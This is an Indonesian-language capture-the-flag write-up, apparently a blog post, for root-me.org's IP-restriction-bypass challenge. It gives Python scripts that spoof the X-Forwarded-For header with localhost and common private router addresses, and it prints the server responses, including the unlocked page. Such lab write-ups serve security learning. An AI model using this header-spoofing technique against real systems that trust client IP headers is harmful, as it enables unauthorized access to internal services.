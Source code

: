 ```yaml
---
Title: root-me.org writeup - IP restriction bypass
Author: 0xHynz
Date: 2022-04-01
Tags:
- HTTP
- ctf
- writeup
- webserver
categories:
- write ups

description: "dalam challenge ini kita disuruh untuk membypass pembatasan ip yang ada untuk mencoba login tanpa menggunakan username maupun password karena bisa diakses apabila memggunakan...."

---
```



IP Restriction bypass

dalam challenge ini kita disuruh untuk membypass pembatasan ip yang ada untuk mencoba login tanpa menggunakan username maupun password karena bisa diakses apabila memggunakan jaringan internal, kurang lebih seperti itu.


#### **CLUE**
Dear colleagues,

We’re now managing connections to the intranet using private IP addresses, so it’s no longer necessary to login with a username / password when you are already connected to the internal company network.

Regards,

The network admin



# Step in progress
kita diberikan sebuah link http://challenge01.root-me.org/web-serveur/ch68/ untuk mengakses halaman challengenya, ketika dibuka seperti inilah tampilannya

<img src="https://i.ibb.co/zswzc17/IMG-20220401-081001.jpg" alt="IMG-20220401-081001" class="img-fluid">

<br><br>
disini terdapat informasi kalau ip address kita adalah 202.73.26.231 dan ini bukanlah jaringan internal dari web nya.

disini saya terpikir melakukan HTTP request terhadap websitenya dengan menambahkan header X-Forwarded-For, karena ini adalah salah satu header untuk mengidentifikasi IP Klien, selain itu kita juga bisa memodifikasinya nantinya untuk merubah IP kita.



disini saya melakukan HTTP request melalui python dengan bantuan requests. nah disini yang terbesit diotak saya adalah merubah IP saya me jadi 127.0.0.1.

```
import requests

header = {"X-Forwarded-For":"127.0.0.1"}
url = "http://challenge01.root-me.org/web-serveur/ch68/"
r = requests.get(url,headers=header)
print (r.text)
```

terlihat outputnya seperti ini

```
<!DOCTYPE html>
<html>
<head>
        <title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
                        <span>Your IP <strong>127.0.0.1</strong> do not belong to the LAN.</span>
                <h1>Intranet</h1>
                <form method="post">
                        <p>
                                <label for="login">Login:</label>
                                <input type="text" name="login">
                        </p>
                        <p>
                                <label for="pass">Password:</label>
                                <input type="text" name="mdp">
                        </p>
                        <p>
                                <input type="submit" value="login">
                        </p>
                        <p>
                                <small>You should authenticate because you're not on the LAN.</small>
                        </p>
                </form>
        </body>
</html>
```

namun 127.0.0.1 bukan alamat IP yang tepat, saya disini melakukan banyak percobaan mulai dari memeriksa alamat ip dari subdomain challenge01.root-me.org, melakukan subneting terhadap beberapa alamat, dsb. namun tetap saja nihil.


tapi ketika saya mencoba dengan beberapa alamat ip default yang sering digunakan oleh router, ternyata bisa.

```
import requests


address = ["192.168.0.1","192.168.1.1","192.168.1.2"]

print(len(requests.get("http://challenge01.root-me.org/web-serveur/ch68/").text))

for ip in address:
   headers = {"X-Forwarded-For":ip}
   r = \
   requests.get(
           "http://challenge01.root-me.org/web-serveur/ch68/",
           headers=headers)
   print(len(r.text))


```

saya melakukan for loop dengan 3 alamat ip dan menambahkanya kedalam header x-forwarded-for, untuk dibagian beberapa fungsi len() saya mencoba untuk memeriksa perubahan dalam websitenya.

output:

```
746
391
391
391
```

disini kita mendaptkan perubahan yang sama untuk 3 alamat ip yang kita coba, kita bisa melihat bagaimana hasilnya. untuk melihatnya kalian bisa hapus `print(len(r.text))` menjadi `print(r.text)` yang ada di kode atas. 


```
<!DOCTYPE html>
<html>
<head>
        <title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
                        <h1>Intranet</h1>
                <div>
                        Well done, the validation password is: <strong>XXXXXXXXXCODE
</strong>
                </div>
        </body>
</html>
```


nah sekarang kita mendapatkan validation passwordnya, mungkin beginilah cara saya menyelesaikan tantangan dari root-me.org ini, walau sebenarnya sederhana tapi bagi saya kesusahan juga untuk menyelesaikannya, karena saya memang buku sesepuh.
